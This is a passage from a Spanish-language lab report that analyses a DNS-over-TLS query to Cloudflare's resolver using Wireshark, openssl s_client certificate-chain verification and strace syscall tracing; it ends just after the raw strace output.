
donde:
- `Extension: key_share … x25519`.
- `Key Share Entry: Group: x25519`
- `Key Exchange length: 32`
- `Key Exchange: <32 bytes…>` la clave pública efímera del cliente.
- `x25519` es un grupo de intercambio de claves basado en `Curve25519 (ECDH moderno)`. El `Key Exchange` es la clave pública efímera que el cliente aporta para derivar el secreto compartido con el servidor. Al ser efímero, cambia por sesión y no depende de la clave privada del servidor.

En este paquete se observa <mark>la extensión `key_share` con Group: x25519 (Key Exchange length 32), lo que evidencia que el intercambio de claves de TLS 1.3 usa ECDHE/ECDH efímero. Esto proporciona PFS, por lo que la posesión posterior de la clave privada del servidor no permitiría derivar las claves de sesión y descifrar la captura.<mark> Es por ello que necesitamos técnicas como SSLKEYLOGFILE o proxies TLS para obtener el tráfico en claro.


------


#### Extensiones relevantes

##### SNI
En el paquete 4 `ClientHello` de la conexión DoT (10.0.2.15 → 1.0.0.1:853), en la columna `Info` ya vimos: `Client Hello (SNI=one.one.one.one)`. Vamos a buscar la extensión SNI en el árbol de Wireshark. Seleccionamos este paquete y en el panel Packet Details →  Transport Layer Security → Handshake Protocol: Client Hello → Extensions → server_name
  
donde:
- `Extension: server_name (...) name=one.one.one.one`.
- `Server Name Indication extension`
- <mark>`Server Name: one.one.one.one`</mark>
- SNI (Server Name Indication) es una extensión de TLS donde el cliente envía el hostname del servicio al que quiere conectarse.
- Esto permite al servidor escoger el certificado correcto (y configuración TLS) cuando hay varios servicios/hostnames detrás de la misma IP.
- En este caso, concuerda con el comando que lanzamos `kdig ... +tls-host=one.one.one.one`: estamos indicando que el hostname esperado y por tanto el que se valida, es `one.one.one.one`.
- El ClientHello y el SNI, se envían antes de que exista cifrado de aplicación, así que SNI queda visible en el PCAP aunque luego el DNS vaya cifrado dentro de `Application Data`. Aunque DoT cifra el DNS, ciertos metadatos del handshake (como SNI) pueden observarse.


##### ALPN
Aplicamos eel filtro de wireshark `tls.handshake.extension.type == 16`, que  filtra la extensión TLS nº16, que es ALPN: Application-Layer Protocol Negotiation. Seleccionamos uno de los paquetes `ClientHello` → En el panel inferior Package Details → Transport Layer Security → TLSv1.3 Record Layer: Handshake Protocol: Client Hello → Handshake Protocol: Client Hello → Extensions → Extension: application_layer_protocol_negotiation:

donde:
- `ALPN Extension`.
- `ALPN string length: 3`.
- `ALPN Protocol: dot`.

<mark>El cliente (kdig) anuncia ALPN y propone el identificador dot.<mark> dot aquí es el Application-Layer Protocol Negotiation identifier para “DNS over TLS”.Esto significa que, además de usar el puerto 853, el cliente también indica explícitamente por ALPN que la aplicación es DoT.


-----------------

#### Certificado del servidor
<mark>En TLS 1.3, con un PCAP tal y como capturamos con tcpdump, SIN claves de sesión, NO podemos hacer un análisis completo del certificado desde Wireshark<mark>, porque:
- En TLS 1.3, el mensaje Certificate va cifrado, se envía después del ServerHello usando claves de handshake.
- En el PCAP vemos ClientHello y ServerHello, pero el resto aparece como `TLS Application Data` (cifrado). Ahí dentro viaja el certificado, pero Wireshark no lo puede abrir sin secretos de sesión.


Es por ello que para seguir haciendo el análisis completo que nos han pedido en el ejercicio, vamos a usar `openssl s_client`. Para ello vamos a obtener la cadena + verificación a través del siguiente comando:
```
openssl s_client -connect 1.0.0.1:853 \
  -servername one.one.one.one \
  -verify_hostname one.one.one.one \
  -showcerts </dev/null
```

Obteniendo:
```
Connecting to 1.0.0.1
CONNECTED(00000003)
depth=2 C=US, ST=Texas, L=Houston, O=SSL Corporation, CN=SSL.com Root Certification Authority ECC
verify return:1
depth=1 C=US, ST=Texas, L=Houston, O=SSL Corp, CN=SSL.com SSL Intermediate CA ECC R2
verify return:1
depth=0 C=US, ST=California, L=San Francisco, O=Cloudflare, Inc., CN=cloudflare-dns.com
verify return:1
---
Certificate chain
 0 s:C=US, ST=California, L=San Francisco, O=Cloudflare, Inc., CN=cloudflare-dns.com
   i:C=US, ST=Texas, L=Houston, O=SSL Corp, CN=SSL.com SSL Intermediate CA ECC R2
   a:PKEY: EC, (prime256v1); sigalg: ecdsa-with-SHA384
   v:NotBefore: Dec 31 19:20:01 2025 GMT; NotAfter: Dec 21 19:20:01 2026 GMT
-----BEGIN CERTIFICATE-----
MIIFgTCCBQigAwIBAgIQTtAzBMRrh6jC61Vp2566DDAKBggqhkjOPQQDAzBvMQsw
CQYDVQQGEwJVUzEOMAwGA1UECAwFVGV4YXMxEDAOBgNVBAcMB0hvdXN0b24xETAP
BgNVBAoMCFNTTCBDb3JwMSswKQYDVQQDDCJTU0wuY29tIFNTTCBJbnRlcm1lZGlh
dGUgQ0EgRUNDIFIyMB4XDTI1MTIzMTE5MjAwMVoXDTI2MTIyMTE5MjAwMVowcjEL
MAkGA1UEBhMCVVMxEzARBgNVBAgMCkNhbGlmb3JuaWExFjAUBgNVBAcMDVNhbiBG
cmFuY2lzY28xGTAXBgNVBAoMEENsb3VkZmxhcmUsIEluYy4xGzAZBgNVBAMMEmNs
b3VkZmxhcmUtZG5zLmNvbTBZMBMGByqGSM49AgEGCCqGSM49AwEHA0IABGODUCUS
6nJ4GesyR6/BBVKcKitgioROdW2BSEfBx77PhXlsEilbULPM7FChlJ7cRAgHDIAa
k9O9eBF7tqPI6qyjggOBMIIDfTAMBgNVHRMBAf8EAjAAMB8GA1UdIwQYMBaAFA10
Zgpen+Is7NXCXSUEf3Uyuv99MHEGCCsGAQUFBwEBBGUwYzA/BggrBgEFBQcwAoYz
aHR0cDovL2NlcnQuc3NsLmNvbS9TU0xjb20tU3ViQ0EtU1NMLUVDQy0zODQtUjIu
Y2VyMCAGCCsGAQUFBzABhhRodHRwOi8vb2NzcHMuc3NsLmNvbTCBpgYDVR0RBIGe
MIGbghJjbG91ZGZsYXJlLWRucy5jb22CFCouY2xvdWRmbGFyZS1kbnMuY29thwQB
AAABhwQBAQEBhwSinyQBhwSiny4BhxAmBkcARwAAAAAAAAAAABABhxAmBkcARwAA
AAAAAAAAABERhxAmBkcARwAAAAAAAAAAAABkhxAmBkcARwAAAAAAAAAAAGQAgg9v
bmUub25lLm9uZS5vbmUwIwYDVR0gBBwwGjAIBgZngQwBAgIwDgYMKwYBBAGCqTAB
AwECMBMGA1UdJQQMMAoGCCsGAQUFBwMBMEQGA1UdHwQ9MDswOaA3oDWGM2h0dHA6
Ly9jcmxzLnNzbC5jb20vU1NMY29tLVN1YkNBLVNTTC1FQ0MtMzg0LVIyLmNybDAd
BgNVHQ4EFgQULCjsVCC2hgAmVappu7bDZS4W+h8wDgYDVR0PAQH/BAQDAgeAMIIB
fwYKKwYBBAHWeQIEAgSCAW8EggFrAWkAdgDCMX5XRRmjRe5/ON6ykEHrx8IhWiK/
f9W1rXaa2Q5SzQAAAZt144FrAAAEAwBHMEUCIHuQBtNhAb4vKGOEHCF7VVPrLHCJ
zk63LICoCBt00zT1AiEAyWgmqpFEDhYYf7tCfbPHKIFQ0m7FAnfkvAbtdxitYr0A
dwDIo8R/x7OtuTVrAT9qehJt4zpOQ6XGRvmXrTl1mR3PmgAAAZt144HcAAAEAwBI
MEYCIQDK+OeKN052kyl9skxqqvcjM0EnMjAoqfW/w2oDJhe+KwIhANhNTK+gJ6lT
DGHjETKguyIS+BGaEnybtSUbxasJS0BoAHYA2AlVO5RPev/IFhlvlE+Fq7D4/F6H
VSYPFdEucrtFSxQAAAGbdeOCMgAABAMARzBFAiBCcTgVSPtumHiOc5mABE05SNon
hQ+/HKlM/mZ5fujyAgIhALV9R9eZpDKVs4o6+Y8uQYQIshlc6drDSS5Ojen3Q2dH
MAoGCCqGSM49BAMDA2cAMGQCMBsutT9/NO4qecncXj/hWurz/QWBsk7GyrZB71SA
1P7QMBDonFpyfkEQWoiWANfPDwIwEvzlukLPMNPCKWOAcErLN5FR6h4kqMEzd1Lq
Tjux4jSNXWzCsgVjnOxJn4q3MjKF
-----END CERTIFICATE-----
 1 s:C=US, ST=Texas, L=Houston, O=SSL Corp, CN=SSL.com SSL Intermediate CA ECC R2
   i:C=US, ST=Texas, L=Houston, O=SSL Corporation, CN=SSL.com Root Certification Authority ECC
   a:PKEY: EC, (secp384r1); sigalg: ecdsa-with-SHA384
   v:NotBefore: Mar  7 19:42:42 2019 GMT; NotAfter: Mar  3 19:42:42 2034 GMT
-----BEGIN CERTIFICATE-----
MIIDejCCAv+gAwIBAgIQHNcSEt4VENkSgtozEEoQLzAKBggqhkjOPQQDAzB8MQsw
CQYDVQQGEwJVUzEOMAwGA1UECAwFVGV4YXMxEDAOBgNVBAcMB0hvdXN0b24xGDAW
BgNVBAoMD1NTTCBDb3Jwb3JhdGlvbjExMC8GA1UEAwwoU1NMLmNvbSBSb290IENl
cnRpZmljYXRpb24gQXV0aG9yaXR5IEVDQzAeFw0xOTAzMDcxOTQyNDJaFw0zNDAz
MDMxOTQyNDJaMG8xCzAJBgNVBAYTAlVTMQ4wDAYDVQQIDAVUZXhhczEQMA4GA1UE
BwwHSG91c3RvbjERMA8GA1UECgwIU1NMIENvcnAxKzApBgNVBAMMIlNTTC5jb20g
U1NMIEludGVybWVkaWF0ZSBDQSBFQ0MgUjIwdjAQBgcqhkjOPQIBBgUrgQQAIgNi
AASEOWn30uEYKDLFu4sCjFQ1VupFaeMtQjqVWyWSA7+KFljnsVaFQ2hgs4cQk1f/
RQ2INSwdVCYU0i5qsbom20rigUhDh9dM/r6bEZ75eFE899kSCI14xqThYVLPdLEl
+dyjggFRMIIBTTASBgNVHRMBAf8ECDAGAQH/AgEAMB8GA1UdIwQYMBaAFILRhXMw
5zUE044CkvvlpNHEIejNMHgGCCsGAQUFBwEBBGwwajBGBggrBgEFBQcwAoY6aHR0
cDovL3d3dy5zc2wuY29tL3JlcG9zaXRvcnkvU1NMY29tLVJvb3RDQS1FQ0MtMzg0
LVIxLmNydDAgBggrBgEFBQcwAYYUaHR0cDovL29jc3BzLnNzbC5jb20wEQYDVR0g
BAowCDAGBgRVHSAAMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATA7BgNV
HR8ENDAyMDCgLqAshipodHRwOi8vY3Jscy5zc2wuY29tL3NzbC5jb20tZWNjLVJv
b3RDQS5jcmwwHQYDVR0OBBYEFA10Zgpen+Is7NXCXSUEf3Uyuv99MA4GA1UdDwEB
/wQEAwIBhjAKBggqhkjOPQQDAwNpADBmAjEAxYt6Ylk/N8Fch/3fgKYKwI5A011Q
MKW0h3F9JW/NX/F7oYtWrxljheH8n2BrkDybAjEAlCxkLE0vQTYcFzrR24oogyw6
VkgTm92+jiqJTO5SSA9QUa092S5cTKiHkH2cOM6m
-----END CERTIFICATE-----
 2 s:C=US, ST=Texas, L=Houston, O=SSL Corporation, CN=SSL.com Root Certification Authority ECC
   i:C=US, ST=Texas, L=Houston, O=SSL Corporation, CN=SSL.com Root Certification Authority ECC
   a:PKEY: EC, (secp384r1); sigalg: ecdsa-with-SHA256
   v:NotBefore: Feb 12 18:14:03 2016 GMT; NotAfter: Feb 12 18:14:03 2041 GMT
-----BEGIN CERTIFICATE-----
MIICjTCCAhSgAwIBAgIIdebfy8FoW6gwCgYIKoZIzj0EAwIwfDELMAkGA1UEBhMC
VVMxDjAMBgNVBAgMBVRleGFzMRAwDgYDVQQHDAdIb3VzdG9uMRgwFgYDVQQKDA9T
U0wgQ29ycG9yYXRpb24xMTAvBgNVBAMMKFNTTC5jb20gUm9vdCBDZXJ0aWZpY2F0
aW9uIEF1dGhvcml0eSBFQ0MwHhcNMTYwMjEyMTgxNDAzWhcNNDEwMjEyMTgxNDAz
WjB8MQswCQYDVQQGEwJVUzEOMAwGA1UECAwFVGV4YXMxEDAOBgNVBAcMB0hvdXN0
b24xGDAWBgNVBAoMD1NTTCBDb3Jwb3JhdGlvbjExMC8GA1UEAwwoU1NMLmNvbSBS
b290IENlcnRpZmljYXRpb24gQXV0aG9yaXR5IEVDQzB2MBAGByqGSM49AgEGBSuB
BAAiA2IABEVuqVDEpiM2nl8ojRfLliJkP9x6jh3MCLOicSS6jkm5BBtHllirLZXI
7Z4INcgn64mMU1jrYor+8FsPazFSY0E7ic3s7LaNGdM0B9y7xgZ/wkWV7Mt/qCPg
CemB+vNH06NjMGEwHQYDVR0OBBYEFILRhXMw5zUE044CkvvlpNHEIejNMA8GA1Ud
EwEB/wQFMAMBAf8wHwYDVR0jBBgwFoAUgtGFczDnNQTTjgKS++Wk0cQh6M0wDgYD
VR0PAQH/BAQDAgGGMAoGCCqGSM49BAMCA2cAMGQCMG/n61kRpGDPYbCWe+0F+S8T
kdzt5fxQaxFGRrMcIQBiu77D5+jNB5n5DQtdcj7EqgIwH7y6C+IwJPt8bYBVCpk+
gA0z5Wajs6O7pdWLjwkspl1+4vAHCGht0nxpbl/f5Wpl
-----END CERTIFICATE-----
---
Server certificate
subject=C=US, ST=California, L=San Francisco, O=Cloudflare, Inc., CN=cloudflare-dns.com
issuer=C=US, ST=Texas, L=Houston, O=SSL Corp, CN=SSL.com SSL Intermediate CA ECC R2
---
No client certificate CA names sent
Peer signing digest: SHA256
Peer signature type: ecdsa_secp256r1_sha256
Negotiated TLS1.3 group: X25519MLKEM768
---
SSL handshake has read 4371 bytes and written 1764 bytes
Verification: OK
Verified peername: one.one.one.one
---
New, TLSv1.3, Cipher is TLS_AES_256_GCM_SHA384
Protocol: TLSv1.3
Server public key is 256 bit
This TLS version forbids renegotiation.
Compression: NONE
Expansion: NONE
No ALPN negotiated
Early data was not sent
Verify return code: 0 (ok)
---
DONE
```
donde vemos:
- **Conexión TCP y arranque de la verificación:**
  - `Connecting to 1.0.0.1`: `openssl s_client` está intentando abrir una conexión al servidor DoT en la IP 1.0.0.1.
  - `CONNECTED(00000003)`: La conexión TCP se ha establecido correctamente. El dato 00000003 suele ser el descriptor de fichero (fd=3) interno que usa OpenSSL para ese socket.

- **Verificación de la cadena**, salida por “depth”: OpenSSL valida la cadena desde la raíz hacia el certificado del servidor.
  - `depth=N` indica el “nivel” dentro de la cadena:
    - depth=2 → CA raíz
    - depth=1 → CA intermedia
    - depth=0 → certificado del servidor (leaf)
  - `depth=2 ... CN=SSL.com Root Certification Authority ECC`: Este es el certificado raíz. `verify return:1`: Para ese certificado ha pasado la verificación.
  - `depth=1 ... CN=SSL.com SSL Intermediate CA ECC R2`: Esta es la CA intermedia firmada por la raíz. `verify return:1`: Pasa la verificación de ese nivel.
  - `depth=0 ... CN=cloudflare-dns.com`: Este es el certificado del servidor (Cloudflare DoT). `verify return:1`: Pasa la verificación de ese nivel.
  - Conclusión: OpenSSL pudo construir una cadena válida y cada certificado cumple las comprobaciones criptográficas y de confianza.

- **Sección `Certificate chain`:**
  - `0 s: ... CN=cloudflare-dns.com`
    - `0` es el leaf, es decir, el certificado presentado por el servidor.
    - `s` significa subject del certificado (quién es).
  - `i: ... CN=SSL.com SSL Intermediate CA ECC R2`:
    - `i`: significa issuer, es decir, quién lo firma.
    - El leaf está firmado por la intermedia.
  - `a:PKEY: EC (prime256v1); sigalg: ecdsa-with-SHA384`:
    - La clave pública del servidor es ECC sobre curva prime256v1 (P-256).
    - La firma del certificado usa ECDSA con SHA-384.
  - `v:NotBefore ... NotAfter ...`: Periodo de validez del certificado leaf (vigencia).
  - Bloques PEM: `-----BEGIN CERTIFICATE----- ...` Son los certificados en formato base64 (leaf, intermedia, raíz).

- **`Server certificate` Resumen del leaf**
  - `subject=... CN=cloudflare-dns.com`: Resume el Subject del leaf.
  - `issuer=... CN=SSL.com SSL Intermediate CA ECC R2`: Resume el Issuer (la CA intermedia que lo firmó).

- **Autenticación del servidor y parámetros de TLS:**
  - `No client certificate CA names sent`: El servidor no está pidiendo certificado de cliente (no es mTLS).
  - `Peer signing digest: SHA256`: Durante el handshake, el servidor firma mensajes (p.ej. CertificateVerify) y el resumen usado en la firma es SHA-256.
  - `Peer signature type: ecdsa_secp256r1_sha256`: La firma que usa el servidor para autenticarse es ECDSA con P-256 y SHA-256.
  - `Negotiated TLS1.3 group: X25519MLKEM768`: Grupo de intercambio de claves negociado. En este caso aparece un híbrido/post-quantum o híbrido: Hay (EC)DHE, lo que da PFS.

- Bytes leídos/escritos del handshake: `SSL handshake has read ... written ...`. Cantidad de bytes intercambiados durante el handshake.

- Resultado de la validación y del hostname
  - `Verification: OK`: La cadena y validaciones criptográficas han sido correctas.
  - `Verified peername: one.one.one.one`: Como ejecutamos el comando con `-verify_hostname one.one.one.one`, OpenSSL comprobó que el certificado cubre ese nombre, normalmente vía SAN, y pasó.

- Resumen final de TLS:
  - `New, TLSv1.3, Cipher is TLS_AES_256_GCM_SHA384`: Conexión en TLS 1.3 con cipher suite AES-256-GCM + SHA384. En TLS 1.3 el “SHA384” está asociado a HKDF/PRF del suite.
  - `No ALPN negotiated`: Aunque el cliente pueda anunciar ALPN, el servidor no seleccionó ninguno, o no se negoció. 
  - `Verify return code: 0 (ok)`: Código final de verificación: 0 = OK. Significa una cadena confiable y verificación correcta.
  - `DONE`: Fin.


Con esta información, ya podemos responder a los siguientes apartados.


##### Subject / SAN (hostnames)
- Subject (certificado servidor / leaf): `C=US, ST=California, L=San Francisco, O=Cloudflare, Inc., CN=cloudflare-dns.com`.
- SAN (hostnames relevantes):  `extensión Subject Alternative Name`:
  - cloudflare-dns.com
  - *.cloudflare-dns.com
  - one.one.one.one

##### Cadena de confianza (intermedia/raíz)
Según el bloque `Certificate chain` y los `depth=:`
- Leaf (servidor): `Cloudflare, Inc. – CN=cloudflare-dns.com`
  - Issuer: `SSL.com SSL Intermediate CA ECC R2`.
- Intermedia: `SSL.com SSL Intermediate CA ECC R2`
  - Issuer: `SSL.com Root Certification Authority ECC`.
- Raíz: `SSL.com Root Certification Authority ECC`
  - Issuer: ella misma: `self-signed root`.


##### Validación (OK / trusted)
Sí, valida correctamente:
- En cada nivel: verify return:1
- Resumen: `Verification: OK`
- Resultado final: `Verify return code: 0 (ok)`
- Además, el hostname se verifica contra el certificado: `Verified peername: one.one.one.one`. Esto prueba que el SAN/CN cubre ese nombre y que la verificación de nombre pasó.

-----------------

### Datos


#### Tráfico de aplicación cifrado (TLS Application Data)

donde vemos:
- El contenido está cifrado, por lo que Wireshark muestra Application Data y no se puede diseccionar DNS sin claves.
- La consulta/respuesta DNS de DoT viaja encapsulada dentro de estos registros TLS.

Tras completar el handshake TLS, el intercambio de la consulta/respuesta DoT aparece como registros TLSv1.3 Application Data. Wireshark no puede mostrar el DNS en claro porque el contenido viaja cifrado dentro de TLS; únicamente se observa el sentido cliente→servidor (envío de datos) y servidor→cliente (respuesta) y las longitudes de los registros.

#### Cierre de conexión (FIN/ACK)

donde:
- La sesión TCP se cierra con el patrón estándar:
  - Cliente → Servidor: FIN, ACK
  - Servidor → Cliente: ACK
  - Servidor → Cliente: FIN, ACK
  - Cliente → Servidor: ACK

La conexión se termina de forma ordenada a nivel TCP mediante el patrón FIN/ACK (cliente inicia FIN, servidor ACK, servidor FIN, cliente ACK). No se aprecian alertas TLS en claro. En TLS 1.3, un posible close_notify viajaría cifrado como Application Data si no se dispone de claves de sesión.


## Consultas con las herramientas strace y ldd
El ejercicio también nos pide responder a:
- Qué tipo de socket emplea: AF_INET/AF_INET6, SOCK_STREAM, etc
- Las llamadas de red (syscalls) que hace: socket, connect, send/recv, close…
- Las librerias SSL/TLS empleadas para cifrar las comunicaciones.

Para responder al análisis del cliente DoT, distinguimos entre evidencia de red y evidencia de ejecución. El PCAP capturado anteriormente permite observar el protocolo y metadatos de la comunicación: para evidenciar que se trata de TCP, el puerto 853, y detalles del handshake TLS (versión negociada, cipher suite, extensiones como SNI/ALPN). Sin embargo, el PCAP no contiene llamadas al sistema. Para identificar con precisión el tipo de socket usado por la aplicación (AF_INET/AF_INET6, SOCK_STREAM) y las llamadas de red más relevantes (socket(), connect(), send()/recv() o read()/write(), close()), es necesario ejecutar el cliente bajo `strace` y guardar el log de syscalls. Finalmente, para justificar las librerías SSL/TLS empleadas, se aportará evidencias adicionales con la herramienta `ldd`.


### Ejecución del cliente kdig bajo strace
```
strace -f -tt -s 256 \
  -e trace=network,read,write,close \
  -o strace_kdig_net.txt \
  kdig -d @1.0.0.1 +tls-ca +tls-host=one.one.one.one example.com
```
donde:
- `-f`: sigue procesos/hilos hijos (muy importante).
- `-tt`: timestamps. Es útil para correlacionar con el PCAP.
- `-s 256`: no corta strings demasiado pronto.
- `-e trace=network,read,write,close`: filtra a lo relevante: syscalls de red + I/O + cierre.
- `-o strace_kdig_net.txt`: guarda todo a este fichero.


------

### Captura del tipo de socket que emplea
Para extraer el tipo de socket que emplea usamos el comando `grep` sobre el fichero con contine los logs:
```
grep -E 'socket\(|connect\(' strace_kdig_net.txt                                                            
```

Resultado:
```
4720  10:49:14.254175 socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
4720  10:49:14.254809 connect(3, {sa_family=AF_INET, sin_port=htons(853), sin_addr=inet_addr("1.0.0.1")}, 16) = -1 EINPROGRESS (Operación en curso)
```
donde el socket que emplea es:
- `socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3`:
  - AF_INET ⇒ familia de direcciones: IPv4.
  - SOCK_STREAM ⇒ Tipo de socket: orientado a conexión (stream) ⇒ TCP.
  - IPPROTO_IP → protocolo pasado a socket().
  - Devuelve FD=3: este descriptor es el que se usa luego en las syscalls connect/send/recv/close.

**<mark>Sockets que emplea: Socket IPv4 (AF_INET) de tipo stream (SOCK_STREAM), es decir, un socket TCP.</mark>** El tercer argumento aparece como IPPROTO_IP, que en este contexto actúa como protocolo por defecto/0 en la llamada `socket()`.


------

### Captura de las syscalls 
Para extraer la syscalls empledas usamos el comando `grep` sobre el fichero con contine los logs:
```
grep -E '^[0-9]+[[:space:]]+[0-9:.]+[[:space:]]+(socket|connect|sendmsg|recvfrom|sendto|recvmsg|setsockopt|getsockopt|shutdown|close)\(' strace_kdig_net.txt
```
donde filtramos para ver:
- creación del socket
- configuración
- conexión
- envío/recepción (handshake TLS + datos cifrados)
- cierre


Resultado:
```
4720  10:49:14.230657 close(3)          = 0
....
....
4720  10:49:14.254175 socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
4720  10:49:14.254765 setsockopt(3, SOL_TCP, TCP_NODELAY, [1], 4) = 0
4720  10:49:14.254809 connect(3, {sa_family=AF_INET, sin_port=htons(853), sin_addr=inet_addr("1.0.0.1")}, 16) = -1 EINPROGRESS (Operación en curso)
4720  10:49:14.274362 getsockopt(3, SOL_SOCKET, SO_ERROR, [0], [4]) = 0
4720  10:49:14.276450 sendmsg(3, {msg_name=NULL, msg_namelen=0, msg_iov=[{iov_base="\26\3\3\1\216\1\0\1\212\3\3\2129$v\232R\231\35L\212\\1\220O\342\2774\325\277\306\246\265\254{c\372\275\321\363f\263\321 kp\325\3711\v\310[\352\327\5\256\366\234\241d\364v;\243\327\232\370\332_a,S:\215O\31\0:\23\2\23\3\23\1\23\4\300,\314\251\300\255\300\n\300+\300\254\300\t\3000\314\250\300\24\300/\300\23\0\235\300\235\0005\0\234\300\234\0/\0\237\314\252\300\237\09\0\236\300\236\0003\1\0\1\7\0003\0k\0i\0\27\0A\4T\300\31\257\376f\267^q\7&\3109\246\346\272,\212\4\327\246I\300\341\225\345j\216\375A|\201\262Z\2\206\202\355\243Ufx\26\207C'|o\337\301\1\5\3771QT\16!\220\236h\10\367\242\0\35\0 \354T\26\312\370&I/\245\314\312\327h\325\354\320&g\340\f\203\247$\357\363\v\266\201p9\36,\0\r\0\"\0"..., iov_len=403}], msg_iovlen=1, msg_controllen=0, msg_flags=0}, 0) = 403
4720  10:49:14.276735 recvfrom(3, 0x5a0464bce7ab, 5, 0, NULL, NULL) = -1 EAGAIN (Recurso no disponible temporalmente)
4720  10:49:14.293724 recvfrom(3, "\26\3\3\0z", 5, 0, NULL, NULL) = 5
4720  10:49:14.293958 recvfrom(3, "\2\0\0v\3\3\347\370\317\330\4\317$(\10\365}\25\247\n\275\310\302X\357\322Y\212\36\1\320\223\4\346b\266\221\256 kp\325\3711\v\310[\352\327\5\256\366\234\241d\364v;\243\327\232\370\332_a,S:\215O\31\23\2\0\0.\0003\0$\0\35\0 \332\361\200\377\21\347Z\240\213N\226_\370xcgZ\5\254Nf\366r$&\33\322\21e\211H\36\0+\0\2\3\4", 122, 0, NULL, NULL) = 122
4720  10:49:14.294124 sendmsg(3, {msg_name=NULL, msg_namelen=0, msg_iov=[{iov_base="\24\3\3\0\1\1", iov_len=6}], msg_iovlen=1, msg_controllen=0, msg_flags=0}, 0) = 6
4720  10:49:14.294324 recvfrom(3, "\24\3\3\0\1", 5, 0, NULL, NULL) = 5
4720  10:49:14.294392 recvfrom(3, "\1", 1, 0, NULL, NULL) = 1
4720  10:49:14.294456 recvfrom(3, "\27\3\3\fJ", 5, 0, NULL, NULL) = 5
4720  10:49:14.294519 recvfrom(3, "\266\311\240\350\371\3\270R\356\233A\324yE\357\233\3ui\4r\314\303\302\213\2\204c\n\0221m\274\271\347\317\363_e\265#X\324\374\313R\202fU|\377\333% \376\25\226\3673\10\366L\357\210\321\270MU{sg\201q\371O\231L>\361\24N\2713\354~M,\256(~^Xm\353\201\267\225t\250\214\7\20\4t \254\370\247\331\272OE\4P\254\306:o\f\312$\2607\347b\234E\276\224\237\225\372\243!wE{\210\7\216\366/geKV\307\30\1$\35#W\26\td[\2\300\n%\333\2432y\345\247\24\335\217\276zy\220\16\59\302\206\306\373\30/)\36\1771\354D{\7\266\344\nc\365n\nb5B\340r%\37\304k\314\252\215*\177\252\4CV!\"\353.\23\321U\350\240\26\327\214=X`\224\233UpP\321\30\254\317\23.{\345P\215~\237\vB\3\5\310\214\204\221"..., 3146, 0, NULL, NULL) = 3146
4720  10:49:14.301524 sendmsg(3, {msg_name=NULL, msg_namelen=0, msg_iov=[{iov_base="\27\3\3\0E\253u[mU\313\356\323\220p\264\340z\336\251\6h\30ZiA\331\240\345\252\31\20\3214*\302a\220\256\364\317\23B\227\322\0y\276\223\375N2\305\365\243,O\333\347\231\216\205\323O\340\316\2344\233\321\227\213\0241", iov_len=74}], msg_iovlen=1, msg_controllen=0, msg_flags=0}, 0) = 74
4720  10:49:14.301594 sendmsg(3, {msg_name=NULL, msg_namelen=0, msg_iov=[{iov_base="\27\3\3\0\223\36K-Q\213\4\352\314\r\224\361j\27\246\341^\342\352F\16\2]\30y\273\204\330Z\365k!\2524\353y\371X\354B\366\247\264S\307t,\0276\0254^\21\242\256\270\312\3566Q*\22\347}\235\374X\332\354\345\177^w\305\377\21\362\\\24>\274X\2\341%\353\273\267u\360\202\241\317\302\32\226\260\3B0G\214\206\6\217\250\362\205\335\375\255sPDa\23K5i\36F\f\347\270\376\1\211A\305/[\207)\372\341\305\326#\34\27\317E\26\223\330W\272p", iov_len=152}], msg_iovlen=1, msg_controllen=0, msg_flags=0}, 0) = 152
4720  10:49:14.302012 recvfrom(3, 0x5a0464be9893, 5, 0, NULL, NULL) = -1 EAGAIN (Recurso no disponible temporalmente)
4720  10:49:14.321183 recvfrom(3, "\27\3\3\1\275", 5, 0, NULL, NULL) = 5
4720  10:49:14.321235 recvfrom(3, "[\371\325y\203\250$,\327\22\344*\330\346v\210\364\0\t\35\230\230\234\232\356\200\230\373\206VA\327\vy\"\233]\214\314M\\\25\27M\10\344\202\224C\333(\232\26\6\33\35758\272/&\0\276\217\225/\317\363x\337\324\26\267\3O+\220\374\235\3\306\317Q\360t~4>\320S\204\316\0340\311&\220\27\260\26\rM\234\304X\377\247sS\177\25\202\331n\327\4Y\265\201\315]\347\356\347\350j\350/\305\22\34\325\v-\310\254LG\222\2342\350x1va\237\336V\t\255`\331\37\353vG\212\346\254\326\25\330\276\266\"83\276\360\207\366\304(e\313\350\320\305\332[W\237{z\361f\364=\10\2223\373,&h\361\320\221\233\326\232\350\0257+\177\261\250\237\16\200~9X9\"0%u\325t\222\273\303Hl\262\243\217GT\311r\21\212gCf \330\363\nw\1Nq\31\366\243\1\326\364|\255O"..., 445, 0, NULL, NULL) = 445
4720  10:49:14.321265 recvfrom(3, "\27\3\3\1\347", 5, 0, NULL, NULL) = 5
4720  10:49:14.321278 recvfrom(3, "Z\235\325!\314\325\7\321\200\20b)\365\310=\342\2Z\213\224\303T\340\6\372-\"\342#C[\27,F;\216\312\327\372\364R9\v\346ym\225-\335\6\225N\277\223K\36Lf\262\315k\306\244<\341\326\234*\327Y\315.z\3376\271\6\303%\35E\377\327\253/oa5o\v\227[\4\35\255L\333kY}\f\202\237>\210s\353\3\37\17\241\321\37\302\355$\224\204:\264\356.[\234\6,z%\323\272\322Q\177\20PLe\33K\344\276K\372h3\1\261\36Q\332`X\302\244\4\364H\16%\253y|\266\35\225\223iO\202\310\323\264\375\20)`\f\30o\352\324\276+-\366\337\304\rB\200\366\24\222\321\262{\3\271\27\243\276\257\271\345C\364\3233\267i\240W-\306\0057o`\224i`3N\26\254\364\301\231gh\344\22m\3538aN\317\10M\327f\245\303\360\265\201U\377,S\177Y\350xJ"..., 487, 0, NULL, NULL) = 487
4720  10:49:14.321598 sendmsg(3, {msg_name=NULL, msg_namelen=0, msg_iov=[{iov_base="\27\3\3\0\239\327=\304\331a\364_\375\364\271\234D\3507\21\261\4U", iov_len=24}], msg_iovlen=1, msg_controllen=0, msg_flags=0}, 0) = 24
4720  10:49:14.321632 recvfrom(3, 0x5a0464be9893, 5, 0, NULL, NULL) = -1 EAGAIN (Recurso no disponible temporalmente)
4720  10:49:14.321645 close(3)          = 0
```
donde vemos las syscalls usadas:
